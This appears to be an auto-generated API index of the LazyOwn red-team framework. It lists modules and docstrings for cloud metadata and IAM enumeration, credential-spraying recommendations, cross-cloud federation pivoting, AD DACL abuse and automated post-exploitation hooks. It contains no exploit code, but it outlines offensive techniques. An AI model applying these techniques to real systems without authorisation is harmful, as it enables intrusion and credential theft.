Supports AWS, Azure, and GCP with automatic provider detection.

Args:
    provider: Cloud provider hint ('aws', 'azure', 'gcp', 'auto').
    session: Optional requests.Session for authenticated requests.
    timeout: Request timeout in seconds.*

**Methods:**
- `__init__` (line 34) `def __init__(self, provider, session, timeout)`
- `detect_provider` (line 47) `def detect_provider(self)` - *Auto-detect which cloud provider the host is running on.

Returns:
    Provider name ('aws', 'azure', 'gcp') or None.*
- `enumerate_metadata` (line 75) `def enumerate_metadata(self)` - *Enumerate cloud instance metadata (IMDS).

Returns:
    Dict with provider, instance_id, region, and metadata fields.*
- `_enumerate_aws_metadata` (line 96) `def _enumerate_aws_metadata(self)` - *Enumerate AWS EC2 instance metadata.*
- `_enumerate_azure_metadata` (line 146) `def _enumerate_azure_metadata(self)` - *Enumerate Azure VM instance metadata.*
- `_enumerate_gcp_metadata` (line 193) `def _enumerate_gcp_metadata(self)` - *Enumerate GCP Compute Engine instance metadata.*
- `enumerate_storage` (line 251) `def enumerate_storage(self, target_bucket)` - *Enumerate cloud storage buckets and objects.

Uses CLI tools (aws, az, gcloud) if available on the host.

Args:
    target_bucket: Optional specific bucket name to enumerate.

Returns:
    List of dicts with bucket names and access levels.*
- `_enumerate_s3` (line 274) `def _enumerate_s3(self, target_bucket)` - *Enumerate AWS S3 buckets.*
- `_enumerate_azure_storage` (line 316) `def _enumerate_azure_storage(self, target_bucket)` - *Enumerate Azure storage accounts.*
- `_enumerate_gcs` (line 350) `def _enumerate_gcs(self, target_bucket)` - *Enumerate GCP Cloud Storage buckets.*
- `enumerate_iam` (line 372) `def enumerate_iam(self)` - *Enumerate IAM roles, users, and policies.

Returns:
    Dict with users, roles, policies, and privilege escalation paths.*
- `_enumerate_aws_iam` (line 390) `def _enumerate_aws_iam(self)` - *Enumerate AWS IAM.*
- `_enumerate_azure_iam` (line 421) `def _enumerate_azure_iam(self)` - *Enumerate Azure IAM (Entra ID).*
- `_enumerate_gcp_iam` (line 477) `def _enumerate_gcp_iam(self)` - *Enumerate GCP IAM.*
- `_check_aws_privesc` (line 526) `def _check_aws_privesc(data)` - *Check AWS IAM for common privilege escalation paths.

Args:
    data: IAM enumeration data.

Returns:
    List of potential privesc paths found.*
- `full_enumeration` (line 576) `def full_enumeration(self)` - *Run full cloud enumeration: metadata + storage + IAM.

Returns:
    Dict with metadata, storage, and iam sections.*

#### `collab_bp.py`
**Path:** `modules/collab_bp.py`
**File Doc:** *modules/collab_bp.py ==================== Multi-operator collaboration layer for LazyOwn.  Provides: - Server-Sent Events (SSE) stream at /collab/stream  -- real-time broadcast to all operators - Target locking  at /collab/lock / /collab/unlock   -- prevents two operators executing same target - Operator registry at /collab/operators             -- who is currently connected - Event bus at /collab/publish                       -- any module can push structured events  Design (SOLID) -------------- - SRP : EventBus, LockManager, OperatorRegistry are independent classes - OCP : new event types added by publishing with a new "type" field - LSP : OperatorRegistry and LockManager share a common Resettable interface - ISP : consumers only import the blueprint; internal classes are not exposed - DIP : Blueprint depends on injected EventBus / LockManager instances (testable)  Authentication -------------- All endpoints require authentication (login_required + require_permission). Operators are identified from their authenticated session, not from self-reported query parameters.  The ``operator`` field in events is derived from the ``current_user`` identity.*

**Classes:**
- `ColabEvent` (line 163) `class ColabEvent`
- `OperatorInfo` (line 176) `class OperatorInfo`
- `EventBus` (line 188) `class EventBus` - *In-process pub/sub bus.
Each subscriber gets its own Queue; publish() fans out to all queues.
Thread-safe.*
- `TargetLock` (line 250) `class TargetLock`
- `LockManager` (line 257) `class LockManager` - *Per-target advisory locks. Prevents two operators running tools
against the same host simultaneously.*
- `OperatorRegistry` (line 314) `class OperatorRegistry` - *Tracks which operators are currently connected.*

**Functions:**
- `_authenticated_operator` (line 90) `def _authenticated_operator()` - *Return the authenticated operator handle, or 'anonymous' if not logged in.*
- `_check_collab_permission` (line 100) `def _check_collab_permission(perm_name)` - *Check if the current user has a specific collaboration permission.*
- `_collab_login_required` (line 120) `def _collab_login_required(f)` - *Authentication decorator that also verifies collaboration permission.*
- `_collab_permission_required` (line 136) `def _collab_permission_required(perm_name)` - *Decorator that checks both auth and specific collab permission.*
- `get_event_bus` (line 370) `def get_event_bus()`
- `get_lock_manager` (line 374) `def get_lock_manager()`
- `get_operator_registry` (line 378) `def get_operator_registry()`
- `publish_event` (line 382) `def publish_event(type, payload, operator)` - *Module-level convenience for other modules to broadcast events.*
- `collab_ui` (line 396) `def collab_ui()`
- `stream` (line 411) `def stream()`
- `operators` (line 458) `def operators()`
- `publish` (line 470) `def publish()`
- `lock` (line 483) `def lock()`
- `unlock` (line 504) `def unlock()`
- `locks` (line 522) `def locks()`
- `history` (line 537) `def history()`
- `decorated` (line 124) `def decorated()`
- `decorator` (line 139) `def decorator(f)`
- `generate` (line 424) `def generate()`
- `login_required` (line 80) `def login_required(f)` - *No-op decorator when Flask-Login is unavailable.*
- `decorated` (line 141) `def decorated()`
- `decorated` (line 84) `def decorated()`

**Methods:**
- `to_sse` (line 170) `def to_sse(self)`
- `__init__` (line 198) `def __init__(self)`
- `subscribe` (line 203) `def subscribe(self, subscriber_id)`
- `unsubscribe` (line 215) `def unsubscribe(self, subscriber_id)`
- `publish` (line 219) `def publish(self, event)`
- `recent` (line 234) `def recent(self, n)`
- `reset` (line 238) `def reset(self)`
- `__init__` (line 263) `def __init__(self)`
- `acquire` (line 267) `def acquire(self, target, operator, ttl_secs)`
- `release` (line 279) `def release(self, target, operator)`
- `status` (line 287) `def status(self, target)`
- `all_locks` (line 292) `def all_locks(self)`
- `_expire` (line 297) `def _expire(self)`
- `reset` (line 304) `def reset(self)`
- `__init__` (line 319) `def __init__(self)`
- `join` (line 323) `def join(self, name)`
- `heartbeat` (line 334) `def heartbeat(self, name)`
- `leave` (line 340) `def leave(self, name)`
- `active_operators` (line 345) `def active_operators(self)`
- `_expire` (line 350) `def _expire(self)`
- `reset` (line 356) `def reset(self)`

#### `colors.py`
**Path:** `modules/colors.py`

**Functions:**
- `retModel` (line 40) `def retModel()` - *gemma2-9b-it        Google  8,192   -       -
llama-3.3-70b-versatile     Meta    128k    32,768  -
llama-3.1-8b-instant        Meta    128k    8,192   -
gemma2-9b-it        Meta    8,192   -       -
llama3-70b-8192     Meta    8,192   -       -
llama3-8b-8192      Meta    8,192   -       -
mixtral-8x7b-32768  Mistral 32,768*
- `delete_lines` (line 68) `def delete_lines(content, to_delete)`
- `no_html` (line 74) `def no_html(content)`

#### `command_executor.py`
**Path:** `modules/command_executor.py`
**File Doc:** *UnifiedCommandExecutor — shared shell command execution service.  Replaces scattered subprocess calls across CLI, C2, and MCP with a single executor that: - Runs commands via subprocess (real-time streaming or capture) - Publishes events via UnifiedEventBus - Logs to CSV via session report - Records metrics (duration, exit code, success) - Stores output in StateManager when relevant  Design (SOLID) -------------- - Single Responsibility : only command execution and its observability. - Open/Closed           : new output handlers via Callable hooks. - Liskov                : all execution modes return typed ExecutionResult. - Interface Segregation : just ``run()`` and ``run_capture()``. - Dependency Inversion  : consumers depend on the executor, not on subprocess.*

**Classes:**
- `ExecutionResult` (line 97) `class ExecutionResult`
- `CommandExecutor` (line 106) `class CommandExecutor` - *Shared shell command execution service.

Usage::

    executor = CommandExecutor()
    result = executor.run("nmap -sC 10.0.0.1")
    print(result.output[:200])*

**Functions:**
- `set_thread_timeout` (line 41) `def set_thread_timeout(seconds)` - *Bound the next ``run_tee`` call on this thread by wall-clock seconds.*
- `clear_thread_timeout` (line 46) `def clear_thread_timeout()` - *Remove this thread's ``run_tee`` deadline, if any.*
- `thread_timeout` (line 54) `def thread_timeout()` - *Return this thread's pending ``run_tee`` deadline, or None.*
- `set_thread_stdin_devnull` (line 59) `def set_thread_stdin_devnull(enabled)` - *Detach the next ``run_tee`` child from the operator terminal.*
- `clear_thread_stdin_devnull` (line 64) `def clear_thread_stdin_devnull()` - *Restore inherited stdin for this thread's ``run_tee`` calls.*
- `thread_stdin_devnull` (line 72) `def thread_stdin_devnull()` - *Return True when this thread's ``run_tee`` children drop stdin.*
- `_kill_process_group` (line 77) `def _kill_process_group(proc)` - *Kill a tee'd child and every descendant in its session/process group.*
- `get_executor` (line 426) `def get_executor()`

**Methods:**
- `__init__` (line 118) `def __init__(self)`
- `instance` (line 122) `def instance(cls)`
- `add_hook` (line 127) `def add_hook(self, hook)` - *Register a post-execution hook (e.g., for StateManager or metrics).*
- `run` (line 131) `def run(self, command, timeout, stream)` - *Execute a shell command and return the result.

Args:
    command: The shell command string to execute.
    timeout: Maximum execution time in seconds.
    stream: If True, print output in real-time. If False, capture silently.

Returns:
    ExecutionResult with output, exit_code, duration_ms, and success.*
- `_needs_shell` (line 165) `def _needs_shell(self, command)` - *Check if command needs bash -c due to shell operators.

Shared policy from :func:`core.safe_exec.needs_shell` so every
runner splits argv versus shell identically.*
- `_argv` (line 173) `def _argv(self, command)` - *Return the spawn target honoring the shared shell policy.*
- `run_passthrough` (line 179) `def run_passthrough(self, command, env)` - *Run a command with stdio inherited, returning its exit code.

Used for the NOLOGS path: output goes straight to the
operator terminal (colors intact), nothing is captured.

Args:
    command: Shell command string to execute.
    env: Child environment mapping, or None to inherit.

Returns:
    The child exit code.*
- `run_tee` (line 194) `def run_tee(self, command)` - *Run a command teeing raw output bytes to a writer and a log file.

Bytes are forwarded untouched (ANSI colors preserved); stderr is
merged into stdout exactly like an interactive terminal row.

Args:
    command: Shell command string to execute.
    env: Child environment mapping, or None to inherit. Pass
        :func:`core.hardening.terminal_env` to keep child colors.
    writer: Called with every stdout chunk. Defaults to writing
        and flushing ``sys.stdout``.
    log_file: Optional path appended with the same chunks.
    timeout: Wall-clock seconds for ``wait``; None waits forever.
        On expiry the child is killed and
        :class:`subprocess.TimeoutExpired` propagates.

Returns:
    ExecutionResult with the full output and exit code.*
- `_default_writer` (line 291) `def _default_writer(line)` - *Write a chunk to stdout, flushing immediately.*
- `_run_capture` (line 296) `def _run_capture(self, command, timeout)`
- `_run_stream` (line 321) `def _run_stream(self, command, timeout)`
- `run_with_tee` (line 358) `def run_with_tee(self, command, output_path, timeout)` - *Execute a command and tee output to a file.

Args:
    command: Shell command string to execute.
    output_path: Log file receiving the same raw bytes shown.
    timeout: Wall-clock seconds; expiry yields an error result.

Returns:
    ExecutionResult with the full output and exit code.*
- `_fire_hooks` (line 394) `def _fire_hooks(self, result)`
- `_publish_event` (line 401) `def _publish_event(self, result)`

#### `compliance.py`
**Path:** `modules/compliance.py`
**File Doc:** *modules/compliance.py ===================== Enterprise compliance engine for LazyOwn RedTeam Framework.  Capabilities: - Framework mappings (PCI-DSS 4.0, ISO 27001:2022, NIST SP 800-53 Rev 5) - Cryptographic evidence chain (SHA256 merkle-style chain of custody) - PDF report export (via fpdf2, zero external pandoc dependency) - SIEM/Elastic bulk export (JSON-ND format for Elasticsearch, CEF for ArcSight) - Operator attribution in all audit trails - Automated compliance coverage scoring per engagement  Usage: from modules.compliance import ComplianceEngine, EvidenceChain, export_pdf  engine = ComplianceEngine(sessions_dir="sessions/default") report = engine.generate_compliance_report(include_evidence_chain=True) engine.export_pdf(report, "compliance_report.pdf")*

**Classes:**
- `EvidenceEntry` (line 340) `class EvidenceEntry`
- `EvidenceChain` (line 349) `class EvidenceChain` - *Merkle-style chain of custody for red-team evidence.

Each file artefact added to the chain is hashed with SHA256 and linked
to the previous entry, creating a tamper-evident chain. The chain state
is persisted to ``sessions/evidence_chain.jsonl``.*
- `ComplianceFinding` (line 620) `class ComplianceFinding`
- `ComplianceEngine` (line 632) `class ComplianceEngine` - *Generates compliance-mapped reports with evidence chain support.*

**Functions:**
- `export_pdf` (line 449) `def export_pdf(report_md, output_path, title, classification)` - *Export a Markdown report to PDF using fpdf2.

Zero external dependencies beyond fpdf2 (no pandoc, no weasyprint).
Returns the output path on success, None on failure.*
- `export_to_elastic_ndjson` (line 533) `def export_to_elastic_ndjson(findings, output_path, index_prefix)` - *Export findings as Elasticsearch NDJSON bulk format.

Produces a newline-delimited JSON file compatible with Elasticsearch _bulk API.*
- `export_to_cef` (line 572) `def export_to_cef(findings, output_path, vendor, product, version)` - *Export findings in CEF (Common Event Format) for ArcSight/QRadar/Splunk.

CEF:0|<vendor>|<product>|<version>|<signature_id>|<name>|<severity>|<extension>*

**Methods:**
- `__init__` (line 357) `def __init__(self, sessions_dir)`
- `_load` (line 364) `def _load(self)`
- `_hash_entry` (line 379) `def _hash_entry(self, entry)`
- `add_file` (line 383) `def add_file(self, filepath, operator, description)`
- `_append_to_file` (line 403) `def _append_to_file(self, entry)`
- `verify` (line 410) `def verify(self)`
- `get_chain_digest` (line 429) `def get_chain_digest(self)`
- `to_report` (line 432) `def to_report(self)`
- `__init__` (line 635) `def __init__(self, sessions_dir)`
- `map_findings_to_compliance` (line 639) `def map_findings_to_compliance(self, findings, frameworks)` - *Map findings to compliance framework controls.

Args:
    findings: List of ComplianceFinding objects.
    frameworks: List of framework keys (e.g. ['pci_dss', 'iso27001', 'nist_800_53']).
               If None, all frameworks are included.

Returns:
    Dict with per-framework coverage and control-level mappings.*
- `generate_compliance_report` (line 710) `def generate_compliance_report(self, findings, include_evidence_chain, include_siem_formats)` - *Generate a full compliance report with evidence chain and optional SIEM export.

Args:
    findings: List of findings. If None, loads from sessions/.
    include_evidence_chain: Include cryptographic evidence chain in report.
    include_siem_formats: Generate NDJSON and CEF exports.

Returns:
    Comprehensive compliance report dict.*
- `_count_by_severity` (line 765) `def _count_by_severity(self, findings)`
- `_count_by_category` (line 772) `def _count_by_category(self, findings)`
- `_load_findings` (line 779) `def _load_findings(self)`
- `export_pdf` (line 831) `def export_pdf(self, report, output_path)`
- `_format_compliance_report_md` (line 835) `def _format_compliance_report_md(self, report)`
- `add_evidence` (line 901) `def add_evidence(self, filepath, operator, description)`
- `verify_evidence_chain` (line 904) `def verify_evidence_chain(self)`

#### `conditional_hooks.py`
**Path:** `modules/conditional_hooks.py`
**File Doc:** *Conditional Hooks System for LazyOwn (Mythic-style triggers).  Lets operators define WHEN->THEN rules that fire automatically on engagement events: beacon connection, credential capture, privilege escalation, host discovery, service detection.  Rules are stored as JSON and evaluated in-process. Multiple actions per trigger, with cooldown to prevent spam. Inspired by Mythic's eventing system but implemented natively.  Usage ----- from modules.conditional_hooks import HookEngine  engine = HookEngine() engine.add_rule({ "name": "auto-seatbelt-on-beacon", "trigger": {"event": "beacon_connected"}, "actions": [{"type": "run_command", "command": "seatbelt -group=all"}], "cooldown_seconds": 300, }) engine.fire("beacon_connected", {"client_id": "abc123"})*

**Classes:**
- `HookRule` (line 45) `class HookRule` - *A single WHEN->THEN rule.*
- `HookEngine` (line 258) `class HookEngine` - *Match events against rules and execute matching actions.

Usage::

    engine = HookEngine()
    engine.fire("beacon_connected", {"client_id": "abc", "platform": "windows"})

Rules are loaded from ``sessions/conditional_hooks.json`` with
built-in defaults as fallback.*

**Functions:**
- `get_hook_engine` (line 586) `def get_hook_engine()` - *Return the singleton :class:`HookEngine`.*

**Methods:**
- `can_fire` (line 56) `def can_fire(self, now)`
- `mark_fired` (line 65) `def mark_fired(self)`
- `to_dict` (line 69) `def to_dict(self)`
- `__init__` (line 270) `def __init__(self)`
- `register_action_handler` (line 277) `def register_action_handler(self, action_type, handler)` - *Register a handler for a custom action type.

Args:
    action_type: String identifier (e.g. ``"run_command"``).
    handler: Callable receiving ``(action: dict, context: dict)``.*
- `set_placeholders` (line 286) `def set_placeholders(self, placeholders)` - *Set placeholder values for command templating (rhost, lhost, etc.).*
- `load_rules` (line 290) `def load_rules(self, path)` - *Load rules from JSON file, or create it with defaults.

Args:
    path: Optional path to rules JSON. Defaults to sessions/conditional_hooks.json.*
- `save_rules` (line 322) `def save_rules(self, path)` - *Persist current rules to JSON.*
- `add_rule` (line 330) `def add_rule(self, rule_dict)` - *Add a rule at runtime.

Args:
    rule_dict: Dictionary with HookRule fields.

Returns:
    The new :class:`HookRule`.*
- `remove_rule` (line 345) `def remove_rule(self, name)` - *Remove a rule by name.

Returns:
    True if removed, False if not found.*
- `enable_rule` (line 359) `def enable_rule(self, name, enabled)` - *Enable or disable a rule by name.*
- `_match_trigger` (line 369) `def _match_trigger(self, rule_trigger, event, context)` - *Check if a rule's trigger matches the given event and context.

Supports field-level matching: if the trigger specifies ``port: 80``,
it only matches when ``context.port == 80``.

Suffix keys:
    ``key_contains``: substring match (case-insensitive).
    ``key``: exact match (case-insensitive for strings).
    ``key`` as list: context value must be in the list (case-insensitive for strings).*
- `_resolve_placeholders` (line 414) `def _resolve_placeholders(self, text, context)` - *Replace {key} placeholders with shell-safe values from context or globals.

Values are wrapped with shlex.quote() to prevent shell injection
when the resolved command is executed with shell=True.*
- `_execute_action` (line 428) `def _execute_action(self, action, context)` - *Execute a single action and return its result.*
- `_execute_shell_command` (line 467) `def _execute_shell_command(self, command, context)` - *Execute a shell command via the run_command infra if available.*
- `_execute_local_command` (line 476) `def _execute_local_command(command)` - *Run a command locally via subprocess.

Args:
    command: Shell command string to execute.

Returns:
    Captured stdout, stderr, or None on failure.*
- `_execute_cred_reuse` (line 500) `def _execute_cred_reuse(self, context)` - *Trigger credential reuse engine analysis.*
- `fire` (line 516) `def fire(self, event, context)` - *Fire an event, evaluating all matching rules.

Args:
    event: Event type (must be in ``_VALID_EVENTS``).
    context: Key-value data about the event.

Returns:
    List of dicts with ``rule``, ``action``, and ``result`` keys.*
- `list_rules` (line 571) `def list_rules(self)` - *Return all rules as dictionaries.*
- `get_rule` (line 575) `def get_rule(self, name)` - *Return a single rule by name, or None.*

#### `config_store.py`
**Path:** `modules/config_store.py`
**File Doc:** *Thread-safe singleton facade over core.config for payload.json.  Contract: preserves the get_config/set_config/reload_config API while delegating all file parsing and atomic persistence to core.config. This removes the duplicated JSON load and dump logic without changing behavior.*

**Functions:**
- `init` (line 36) `def init(path, watch)` - *Initialise the config store (idempotent).

Parameters
----------
path  : path to payload.json (default: <project_root>/payload.json)
watch : if True, start a background thread that reloads on file change*
- `get_config` (line 53) `def get_config(key, default)` - *Return a config value (or the full dict when *key* is empty).

Always returns a deep copy so callers cannot mutate the cache.*
- `set_config` (line 66) `def set_config()` - *Update one or more keys and persist to disk atomically.

Example
-------
    set_config(rhost="10.10.10.10", lport=4444)*
- `set_config_dict` (line 80) `def set_config_dict(updates)` - *Bulk-update from a dict and persist to disk.*
- `reload_config` (line 90) `def reload_config()` - *Force reload from disk (discards in-memory changes).*
- `stop_watcher` (line 96) `def stop_watcher()` - *Stop the file-watcher background thread (if running).*
- `_ensure_loaded` (line 106) `def _ensure_loaded()` - *Lazy-load on first access.*
- `_load` (line 113) `def _load()` - *Load payload.json into _data via core.config. Caller must hold _lock.*
- `_persist` (line 131) `def _persist()` - *Write _data back to disk via core.config. Caller must hold _lock.*
- `_start_watcher` (line 143) `def _start_watcher(interval)` - *Start background thread that reloads config when the file changes.*
- `_watch_loop` (line 148) `def _watch_loop()`

#### `credential_reuse.py`
**Path:** `modules/credential_reuse.py`
**File Doc:** *Credential Reuse Engine for LazyOwn.  Automatically suggests captured credentials for newly discovered hosts. When creds are found on host A, the engine ranks all other hosts by likelihood that the same creds will work, generating actionable spray recommendations with ready-to-run crackmapexec commands.  Design ------ - Single Responsibility: score + rank credential reuse candidates - Taps StateManager for hosts/creds, WorldModel for confirmed/failed edges - Produces a sorted list of (cred, host, score, command) tuples - Score decays with subnet distance, service overlap, and prior failures*

**Classes:**
- `ReuseCandidate` (line 32) `class ReuseCandidate` - *Scored credential-to-host reuse suggestion.*
- `CredentialReuseEngine` (line 55) `class CredentialReuseEngine` - *Scoring engine for credential spraying prioritisation.

Usage::

    engine = CredentialReuseEngine()
    candidates = engine.rank(
        hosts=["10.0.0.1", "10.0.0.2", "10.0.1.5"],
        creds=[{"username": "admin", "password": "P@ssw0rd", "host": "10.0.0.1"}],
    )
    for c in candidates:
        print(f"Try {c.username}:{c.password} against {c.target_host} "
              f"[score={c.score:.2f}]")
        print(f"  {c.command}")*

**Functions:**
- `get_credential_reuse_engine` (line 358) `def get_credential_reuse_engine()` - *Return the singleton :class:`CredentialReuseEngine`.*

**Methods:**
- `to_dict` (line 43) `def to_dict(self)`
- `__init__` (line 80) `def __init__(self)`
- `_load_cache` (line 85) `def _load_cache(self)`
- `_save_cache` (line 95) `def _save_cache(self)`
- `mark_failed` (line 107) `def mark_failed(self, username, password, host)` - *Record that a credential did NOT work against a host.*
- `mark_confirmed` (line 112) `def mark_confirmed(self, username, password, host)` - *Record that a credential worked against a host.*
- `_subnet_distance` (line 118) `def _subnet_distance(self, ip_a, ip_b)` - *Return the CIDR prefix-length similarity between two IPs.

Returns the longest prefix they share (0-32). Higher = closer.*
- `_score_candidate` (line 144) `def _score_candidate(self, username, password, source_host, target_host, target_services)` - *Compute a reuse score (0.0-1.0) for (cred, host).

Scoring factors:
- Same subnet: +0.4
- Adjacent /24: +0.2
- Confirmed on source: +0.3
- Previously failed: -1.0 (instant reject)
- SMB/445 open on target: +0.15
- WinRM/5985 open on target: +0.1
- Already confirmed: skip (return -1.0)*
- `_build_command` (line 196) `def _build_command(self, username, password, host, target_services)` - *Generate the best crackmapexec command for the target.*
- `rank` (line 226) `def rank(self, hosts, creds, host_services, limit)` - *Score all (cred, host) pairs and return top candidates.

Args:
    hosts: Discovered target IP addresses.
    creds: Credential dicts with ``username``, ``password``, ``host`` keys.
    host_services: Optional mapping of host -> list of service dicts
        (ports, protocols) for protocol-aware scoring.
    limit: Maximum number of candidates to return.

Returns:
    Sorted list of :class:`ReuseCandidate`, highest score first.*
- `suggest_from_state_manager` (line 278) `def suggest_from_state_manager(self, state_manager, limit)` - *Convenience: rank creds using hosts and creds from StateManager.

Args:
    state_manager: An instance of :class:`StateManager`.
    limit: Max candidates.

Returns:
    Sorted list of :class:`ReuseCandidate`.*
- `suggest_from_world_model` (line 308) `def suggest_from_world_model(self, world_model, limit)` - *Convenience: rank creds using hosts and creds from WorldModel.

Args:
    world_model: An instance of :class:`WorldModel`.
    limit: Max candidates.

Returns:
    Sorted list of :class:`ReuseCandidate`.*
- `get_summary` (line 338) `def get_summary(self, candidates)` - *Format candidates as a human-readable summary string.*

#### `cross_cloud.py`
**Path:** `modules/cross_cloud.py`
**File Doc:** *Cross-cloud identity paths — multi-cloud identity federation abuse.  Implements attack paths that bridge cloud providers through identity federation: Azure AD -> AWS (SAML federation), GCP -> Azure (OIDC federation), multi-cloud metadata harvesting, and cross-cloud service account impersonation through workload identity federation.  Allows attackers to pivot from one cloud to another using federated identities, expanding compromise radius across multi-cloud environments.*

**Classes:**
- `CrossCloudConfig` (line 30) `class CrossCloudConfig` - *Configuration for cross-cloud identity attacks.

Attributes:
    source_cloud: Source cloud provider (aws, azure, gcp).
    target_cloud: Target cloud provider.
    azure_tenant_id: Azure AD tenant ID.
    aws_account_id: AWS account ID.
    aws_role_arn: AWS IAM role ARN for federation.
    gcp_project_id: GCP project ID.
    gcp_workload_pool: GCP workload identity pool.
    federation_metadata_url: SAML/OIDC metadata URL.*
- `CrossCloudAttackEngine` (line 54) `class CrossCloudAttackEngine` - *Execute cross-cloud identity federation attacks.

Bridges identity providers across AWS, Azure, and GCP using SAML 2.0
and OIDC federation to pivot between cloud environments.

Attributes:
    config: CrossCloudConfig with federation parameters.*

**Methods:**
- `__init__` (line 64) `def __init__(self, config)`
- `azure_saml_to_aws` (line 67) `def azure_saml_to_aws(self)` - *Abuse Azure AD SAML federation to gain AWS access.

If Azure AD is configured as a SAML IdP for AWS IAM Identity Center
or direct SAML federation, an attacker with Azure AD access can
assume AWS IAM roles.

Returns:
    Dict with attack steps, commands, and required permissions.*
- `gcp_oidc_to_azure` (line 104) `def gcp_oidc_to_azure(self)` - *Abuse GCP OIDC federation to gain Azure access.

GCP workload identity federation allows GCP service accounts to
authenticate to Azure AD via OIDC and obtain Azure access tokens.

Returns:
    Dict with attack steps and token exchange commands.*
- `aws_oidc_to_gcp` (line 133) `def aws_oidc_to_gcp(self)` - *Abuse AWS OIDC federation to gain GCP access.

GCP Workload Identity Federation can trust AWS as an OIDC identity
provider. An attacker with AWS access can generate OIDC tokens
to impersonate GCP service accounts.

Returns:
    Dict with AWS-to-GCP attack path.*
- `multi_cloud_imds_harvesting` (line 167) `def multi_cloud_imds_harvesting(self)` - *Harvest metadata from all cloud providers simultaneously.

Useful on multi-cloud or hybrid environments where workloads may
have access to multiple cloud metadata services.

Returns:
    Dict with multi-cloud metadata harvesting commands.*
- `entra_id_to_gcp_workforce_federation` (line 204) `def entra_id_to_gcp_workforce_federation(self)` - *Exploit Entra ID to GCP workforce identity federation.

Microsoft Entra ID can serve as an identity provider for GCP
workforce identity federation. Compromising Entra ID accounts
with GCP federation grants GCP console/CLI access.

Returns:
    Dict with Entra-to-GCP attack steps.*
- `detect_cross_cloud_federation` (line 234) `def detect_cross_cloud_federation(self)` - *Detect cross-cloud federation configurations for attack surface mapping.

Returns:
    Dict with detection commands per provider.*
- `summary` (line 258) `def summary(self)`

#### `custom_tools.py`
**Path:** `modules/custom_tools.py`
**File Doc:** *Operator-defined custom tools exposed to the autonomous loop.  Kinds: command -- shell line with ``{arg}`` substituted and executed through the streaming runner (guard/scope/constraints still apply). script  -- ``.sh`` runs with bash, anything else with python3. http    -- URL/body templates with ``{arg}`` posting through the notification URL allowlist.  The planner proposes matches as ``custom tool <name> <target>`` intents and the worker routes them to :func:`run_tool` in-process, so custom tools get the same trigger+command contract as the rest of the loop.*

**Functions:**
- `_store_file` (line 30) `def _store_file()` - *Resolve the tool registry path through the lazy store layer.*
- `_load` (line 37) `def _load()` - *Load the registry payload.*
- `_save` (line 45) `def _save(payload)` - *Persist the registry payload.*
- `add_tool` (line 52) `def add_tool(name, kind, target, description, method, body, timeout, trigger)` - *Register or replace one custom tool.

Args:
    name: Tool name used in intents.
    kind: ``command``, ``script`` or ``http``.
    target: Command line, script path or URL template.
    description: Short text used for keyword matching.
    method: HTTP method for ``http`` tools.
    body: Request body template for ``http`` tools.
    timeout: Execution timeout in seconds.
    trigger: Comma/space separated service tokens (``http,https,smb``)
        that make the loop propose this tool when the matching
        service is discovered, exactly like ``tools/*.tool`` files.

Returns:
    Stored tool entry.

Raises:
    ValueError: Unknown kind or empty name/target.*
- `remove_tool` (line 97) `def remove_tool(name)` - *Delete a tool by name.*
- `list_tools` (line 109) `def list_tools()` - *Return every registered tool.*
- `get_tool` (line 114) `def get_tool(name)` - *Find one tool by name.*
- `_trigger_tokens` (line 122) `def _trigger_tokens(raw)` - *Normalize a comma/space separated trigger string into tokens.*
- `match_tools` (line 128) `def match_tools(text, limit)` - *Rank tools whose name/description/trigger keywords appear in the text.*
- `run_tool` (line 151) `def run_tool(name, arg, on_output)` - *Execute one custom tool and return its transcript.

Args:
    name: Tool name.
    arg: Argument substituted into ``{arg}`` placeholders.
    on_output: Optional live line observer.

Returns:
    Captured output or an ``execution failed:`` transcript line.*
- `_run_http` (line 179) `def _run_http(tool, arg, on_output)` - *Execute an http custom tool through the URL allowlist.*

#### `cve_matcher.py`
**Path:** `modules/cve_matcher.py`
**File Doc:** *modules/cve_matcher.py ======================= CVE lookup via NVD API 2.0 (no key required for basic queries).  Rate limits: Without key : 5 requests / 30 s With key    : 50 requests / 30 s  (set NVD_API_KEY env var)  Results are cached on disk under sessions/cve_cache/ (TTL: 1 hour).  Usage: from modules.cve_matcher import CVEMatcher  m = CVEMatcher() for cve in m.search("openssh", "8.4"): print(cve.id, cve.cvss, cve.description[:80])  # CLI: python3 modules/cve_matcher.py --product openssh --version 8.4 [--max 10] [--json]*

**Classes:**
- `CVEResult` (line 51) `class CVEResult`
- `CVEMatcher` (line 60) `class CVEMatcher` - *Lookup CVEs for a given product/version using the NVD REST API 2.0.

Parameters
----------
api_key   : NVD API key (optional, falls back to NVD_API_KEY env var).
cache_dir : directory for on-disk result cache.*

**Functions:**
- `get_matcher` (line 198) `def get_matcher()` - *Return (or create) the module-level singleton CVEMatcher.*
- `search` (line 206) `def search(product, version, max_results)` - *Module-level convenience wrapper.*

**Methods:**
- `__init__` (line 70) `def __init__(self, api_key, cache_dir)`
- `search` (line 82) `def search(self)` - *Search CVEs by product / version keywords.*
- `search_by_cpe` (line 89) `def search_by_cpe(self, cpe_name, max_results)` - *Search CVEs by CPE 2.3 string.*
- `_cache_path` (line 95) `def _cache_path(self, params)`
- `_load_cache` (line 100) `def _load_cache(self, params)`
- `_save_cache` (line 112) `def _save_cache(self, params, results)`
- `_rate_limit` (line 121) `def _rate_limit(self)`
- `_query` (line 128) `def _query(self)`

#### `dacl_abuse.py`
**Path:** `modules/dacl_abuse.py`
**File Doc:** *DACL/SACL abuse module — ACL manipulation for AD privilege escalation.  Identifies and exploits dangerous Access Control Entries (ACEs) in Active Directory object security descriptors. Covers ownership takeover, AdminSDHolder abuse, ACL inheritance manipulation, and DCSync rights assignment.  Allows privilege escalation by abusing misconfigured DACLs to grant DCSync, reset passwords, add group memberships, or modify GPO links.*

**Classes:**
- `ACEntry` (line 67) `class ACEntry` - *A single Access Control Entry in an AD object's DACL/SACL.

Attributes:
    ace_type: ACCESS_ALLOWED, ACCESS_DENIED, etc.
    trustee_sid: SID of the principal granted the permission.
    access_mask: Bitmask of granted rights.
    flags: Inheritance flags.
    object_type: GUID of the specific attribute right.
    inherited_object_type: GUID for inheritance scoping.*
- `ACLTarget` (line 91) `class ACLTarget` - *An AD object with exploitable ACEs.

Attributes:
    distinguished_name: DN in AD.
    sam_account_name: sAMAccountName (or name for non-users).
    object_sid: Security identifier.
    object_type: user, group, computer, gpo, ou, domain.
    interesting_aces: ACEs that grant abuse primitives.
    abuse_techniques: List of applicable abuse techniques.
    severity: critical, high, medium, low.*
- `DACLAbuseEngine` (line 113) `class DACLAbuseEngine` - *Identify and exploit dangerous DACL/SACL entries on AD objects.

